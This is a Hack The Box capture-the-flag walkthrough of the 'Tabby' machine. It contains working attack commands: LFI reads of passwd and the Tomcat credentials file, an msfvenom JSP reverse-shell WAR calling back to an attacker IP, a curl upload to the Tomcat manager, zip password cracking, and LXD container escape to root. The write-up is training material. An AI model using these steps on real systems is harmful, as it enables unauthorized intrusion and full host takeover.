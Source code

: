 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "LFI", "burpsuite", "tomcat", "reverse shell", "netcat", "war file", "fcrackzip", "lxd"]
date = 2020-11-07T16:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/06/info-4.png"
slug = "hack-the-box-tabby"
summary = "Welcome back CTF nerds. Today we are doing the machine Tabby from Hack the Box. This is a Linux machine with an easy difficulty. Let's jump in!"
tags = ["hack the box", "Linux", "easy", "LFI", "burpsuite", "tomcat", "reverse shell", "netcat", "war file", "fcrackzip", "lxd"]
title = "Hack the Box - Tabby"

+++


Welcome back CTF nerds. Today we are doing the machine Tabby from Hack the Box. This is a Linux machine with an easy difficulty. Let's jump in!

Like we do with every box, kick it off with an `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.194`

Here are our results:
```
Nmap scan report for 10.10.10.194
Host is up (0.042s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http     Apache Tomcat
|_http-title: Apache Tomcat
8443/tcp open  ssl/http LXD container manager REST API
|_http-title: Site doesn't have a title (application/json).
| ssl-cert: Subject: commonName=root@ghost/organizationName=linuxcontainers.org
| Subject Alternative Name: DNS:ghost, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2020-06-16T13:34:28
|_Not valid after:  2030-06-14T13:34:28
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

These results are pretty basic. `Tomcat` on 8080 a container manager and an `Apache` instance. When we visit the machine via a web browser we see that we have a hosting platform. When we start sifting through the source of the page, we see some useful things.

We see that the site is refereted to as `megahosting.htb` and there is a link toe a `.php` location with an argument.

![](/images/2020/06/image-83.png)

We'll add this to our hosts file and enumerate a bit. For starters we kick of a `gobuster` to see what else might be around.

Command:
`gobuster dir -u http://megahosting.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt`

While that runs, we'll also want to fuzz for subdomains.

Command:
`ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u 'http://FUZZ.megahosting.htb' -c -v`

While those run we'll check for some other basic things, like an `LFI`. We check the `news.php` location and sure enough, there is an `LFI`. We'll load up `Burpsuite` to help with this one.

![](/images/2020/06/image-84.png)

We send our `LFI` to the Repeater function and get the `passwd` file. We get this file so that we can get a good idea of the users on the machine.

![](/images/2020/06/image-85.png)

![](/images/2020/06/image-86.png)

We see our user we are potentially after is `Ash`. Now in addition to this, if we visit port `8080` we can see a 'default' `Tomcat` install.

![](/images/2020/06/image-87.png)

What we really want to take away from this is that it gives us quite a few paths. The one of particular interest is `/etc/tomcat9/tomcat-users.xml`. Now this isn't that standard path you might think. It's actually the path WITHIN the `tomcat9` instance.

![](/images/2020/06/image-92.png)

![](/images/2020/06/image-93.png)

Now that we have the user credentials we log in. Now that we can authenticate, we can look for some `Authenticated RCE's`. None of the 'standard' `Metasploit` modules seemed to work. Some googling around lead us [here](https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/) and [here](https://gist.github.com/pete911/6111816). The first is on creating a backdoor using a `war` file. The second is how to leverage `curl` to upload the file.

Let's create our payload first.

Command:
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=
7777 -f WAR > exploit666.war`


This creates our payload.

![](/images/2020/06/image-94.png)

Now we just need to upload it following the gist above.

Command:
`curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file rootme.war "http://megahosting.htb:8080/manager/text/deploy?path=/exploit666.war"`


We use the `/manager/text/deploy` path as stated [here](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html).

![](/images/2020/06/image-91.png)

Now with our payload uploaded, we just need to start up a `netcat` listener and execute. To do that we browse to our payload on 8080. Once we do, we get a shell back on our listener! Note: I tried the above at first with `MSFPC` and wasn't able to catch a shell back.

![](/images/2020/06/image-95.png)

We'll upgrade our shell and look for a way to pivot into `ash`. We'll download `linpeas` and start enumerating. We see a file listed as `16162020_backup.zip`

![](/images/2020/06/image-96.png)

We'll try to download this and see what's inside.

![](/images/2020/06/image-97.png)

When we try to unzip it, we are prompted with a password.

![](/images/2020/06/image-98.png)

We can try to brute the password with `fcrackzip`.

Command:
`fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u 16162020_backup.zip`

![](/images/2020/06/image-99.png)

As we look through the files, its just a basic backup. Nothing to be found inside. So the next logical step is, well, maybe this user has reused passwords. We try to `su` to `ash`.

Command:
`su ash`

And it works!

![](/images/2020/06/image-100.png)

We head over to the users home directory and grab our `Users.txt` flag. We will generate an new keypair for this machine using `ssh-kegen`. We can then copy this key over to the `authorized_keys` file under Ash and SSH in. Now we can start our internal enumeration again, this time as Ash.

The enumeration doesn't come back with much. the `lxd` group is is a slightly different group to see a user as a part of. Some googleing around for 'Priv esc lxd` lead me to [this resource](https://www.hackingarticles.in/lxd-privilege-escalation/). We want this part in particular:

![](/images/2020/06/image-101.png)

Let's follow these steps as shown to hopefully escalate! From the PoC:

Command:
```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

The first run failed due to some kind of connectivity error. I simply deleted the rootfs folder and re-ran `./build-apline`. Once it finished successfully, we are left with a ziped file.

Now we spin up a `SimpleHTTPServer`.

Command:
`python -m SimpleHTTPServer 80`

And download the file. Now we import the image file.

Command: 
`lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias rfimage`

![](/images/2020/06/image-102.png)

We can use the `lxc image list` command to see if our image has been imported correctly.

![](/images/2020/06/image-103.png)

Now we issue config commands to our image.

Commands:
```
lxc init rfimage fire -c security.privileged=true
```

![](/images/2020/06/image-104.png)

`lxc config device add fire rfimage disk source=/ path=/mnt/root recursive=true`

![](/images/2020/06/image-105.png)

```
lxc start fire
lxc exec fire /bin/sh
```

![](/images/2020/06/image-106.png)

Now that we're in the contiainer we navigate to `/mnt/root` like the PoC says. This allows us to see all the resources from the host machine.

![](/images/2020/06/image-108.png)

Awesome! We head over to the `root` directory to group our `root.txt` flag!

![](/images/2020/06/image-107.png)

This box was pretty fun. If you enjoyed this write-up and / or learned something along the way, shoot some me some respect on [Hack The Box](https://www.hackthebox.eu/home/users/profile/95635).



